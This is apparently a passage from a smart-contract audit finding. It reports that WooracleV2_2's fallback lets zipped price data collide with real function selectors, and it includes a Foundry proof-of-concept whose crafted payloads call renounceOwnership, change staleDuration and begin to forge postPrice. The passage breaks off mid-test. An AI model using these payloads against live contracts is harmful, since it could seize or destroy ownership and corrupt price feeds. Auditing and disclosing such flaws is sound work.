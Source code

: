 ````WooracleV2_2.fallback()```` is used to post zipped token price and state data to the contract for sake of gas saving. However, the first 4 bytes of zipped data are not reserved to distinguish the ````ZIP```` call and other normal call's function selector.
    }

    function testNormalCase() public {
        /* reference:
            File: test\typescript\wooraclev2_zip_inherit.test.ts
            97:     function _encode_woo_price() {
            op = 0
            len = 1
            (base, p)
            base: 6, woo token
            price: 0.23020
            23020000 (decimal = 8)
        */
        uint8 base = 6;
        bytes memory zip = _makeZipData({
            op: 0,
            length: 1,
            leadingBytesOfBody: abi.encodePacked(base, uint32((2302 << 5) + 4))
        });
        (bool success, ) = address(oracle).call(zip);
        assertEq(success, true);
        address wooAddr = oracle.getBase(6);
        (uint256 price, bool feasible) = oracle.price(wooAddr);
        assertEq(price, 23020000);
        assertTrue(feasible);
    }

    function testCollisionWithRenounceOwnership() public {
        // selector of "renounceOwnership()": "0x715018a6"
        bytes memory zip = _makeZipData({
            op: 1,
            length: 0x31,
            leadingBytesOfBody: abi.encodePacked(hex"5018a6")
        });
        assertEq(oracle.owner(), address(this));
        (bool success, ) = address(oracle).call(zip);
        assertEq(success, true);
        assertEq(oracle.owner(), address(0));
    }

    function testCollisionWithSetStaleDuration() public {
        // selector of "setStaleDuration(uint256)": "0x99235fd4"
        bytes memory zip = _makeZipData({
            op: 2,
            length: 0x19,
            leadingBytesOfBody: abi.encodePacked(hex"235fd4")
        });
        assertEq(oracle.staleDuration(), 120); // default: 2 mins
        (bool success, ) = address(oracle).call(zip);
        assertEq(success, true);
        uint256 expectedStaleDuration;
        assembly {
            expectedStaleDuration := mload(add(zip, 36))
        }
        assertEq(oracle.staleDuration(), expectedStaleDuration);
        assertTrue(expectedStaleDuration != 120);
    }

    function testCollisionWithPostPrice() public {
        // selector of "postPrice(address,uint128)": "0xd5bade07"
        bytes memory addressAndPrice = abi.encode(address(0x1111), uint256(100));
        bytes memory zip = _makeZipData({
            op: 3,
````